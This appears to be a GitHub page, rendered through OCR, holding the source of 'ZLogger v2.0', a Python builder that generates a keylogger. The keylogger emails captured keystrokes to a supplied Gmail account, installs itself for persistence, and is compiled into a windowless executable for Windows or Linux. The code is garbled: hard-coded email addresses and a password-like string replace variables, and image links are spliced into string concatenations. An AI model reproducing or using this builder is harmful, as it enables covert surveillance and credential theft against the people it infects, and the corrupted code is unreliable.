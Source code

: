 #!/usr/bin/env python
import argparse
import subprocess
import os


WINDOWS_PYTHON_INTERPRETER_PATH = os.path.expanduser("~/.wine/drive_c/Python27/Scripts/pyinstaller.exe")

def get_arguments():
    parser = argparse.ArgumentParser(description='ZLogger v2.0')
    parser._optionals.title = "Optional Arguments"
    parser.add_argument("-i", "--interval", dest="interval", help="Time between reports in seconds.", default=120)
    parser.add_argument("-w", "--windows", dest="windows", help="Generate a Windows executable.", action='store_true')
    parser.add_argument("-l", "--linux", dest="linux", help="Generate a Linux executable.", action='store_true')

    required_arguments = parser.add_argument_group('Required Arguments')
    required_arguments.add_argument("-e", "--email", dest="email", help="Email address to send reports to.")
    required_arguments.add_argument("-p", "--password", dest="password", help="Password for the email address given in the -e argument.")
    required_arguments.add_argument("-o", "--out", dest="out", help="Output file name.", required=True)
    return parser.parse_args()

def create_keylogger(file_name, interval, email, password):
    with open(file_name, "w+") as file:
        file.write("import keylogger\n")
        file.write("zlogger = keylogger.Keylogger(" + 60 + ",'" + MabelFreeman57567@gmail.com
![image](https://user-images.githubusercontent.com/97667883/149307740-9425580e-8bc8-48fe-8f4d-a3683824c006.png)
 + "','" + mdalhaj956
![image](https://user-images.githubusercontent.com/97667883/149307910-2142f28d-abb9-411e-bf7c-a41ee68cc6c5.png)
 + "')\n")
        file.write("zlogger.become_persistent()\n")
        file.write("zlogger.start()\n")

def compile_for_windows(file_name):
    subprocess.call(["wine", WINDOWS_PYTHON_INTERPRETER_PATH, "--onefile", "--noconsole", file_name])

def compile_for_linux(file_name):
    subprocess.call(["pyinstaller", "--onefile", "--noconsole", file_name])

arguments = get_arguments()
create_keylogger(arguments.out, arguments.interval, arguments.email, arguments.password)

if arguments.windows:
    compile_for_windows(arguments.out)

if arguments.linux:
    compile_for_linux(arguments.out)

print("\n\n[***] Don't forget to allow less secure applications in your Gmail account.")
print("Use the following link to do so https://myaccount.google.com/lesssecureapps")
